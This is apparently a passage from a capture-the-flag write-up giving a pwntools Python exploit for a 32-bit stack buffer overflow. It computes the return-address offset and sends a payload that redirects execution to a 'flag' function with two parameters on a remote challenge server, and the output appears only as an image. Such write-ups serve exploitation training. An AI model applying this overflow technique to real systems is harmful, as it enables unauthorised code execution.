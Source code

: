 ```python
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=True) # You can set this to false to not see checksec info
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(200))

# Connect to remote server
io = remote('167.172.61.89', 30056)

# Build the payload
payload = flat({
    offset: [
        # 32-bit the params follow the function
        elf.functions.flag,
        0x0,  # Original: 0x0 . This is the junk parameter -- This can be in hex or a 4-byte word i.e. ("junk"). Return pointer - try changing to main() and step through with GDB!
        0xdeadbeef,  # Param_1
        0xc0ded00d,  # Param_2
    ]
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Get flag
io.interactive()
```

Result:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

